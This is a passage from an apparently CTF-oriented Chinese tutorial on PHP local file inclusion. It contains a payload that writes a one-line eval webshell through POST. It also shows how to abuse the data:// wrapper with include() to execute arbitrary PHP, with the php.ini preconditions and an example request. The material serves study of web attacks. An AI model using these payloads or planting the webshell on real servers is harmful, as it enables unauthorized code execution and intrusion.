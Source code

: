 如果有权限，还可以通过`POST`写入一句话木马：

```
<?php fputs(fopen('1juhua.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
```



<br>

***

<br>

# 4_data://协议

自`PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以**用来执行PHP代码**。一般需要用到`base64编码`传输

条件: `PHP.ini`中

- `allow_url_fopen:on`
- `allow_url_include :on`

用法:

```
data://text/plain,「要执行的php代码」
data://text/plain;base64,「base64编码后要执行的php代码」
```

示例:

`include.php`中, 有`include($file)`

```
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
```

<img src="/images/ctf-web02/2.jpg" alt="2" style="zoom:100%;" />

成功执行了`<?php phpinfo();?>`

***
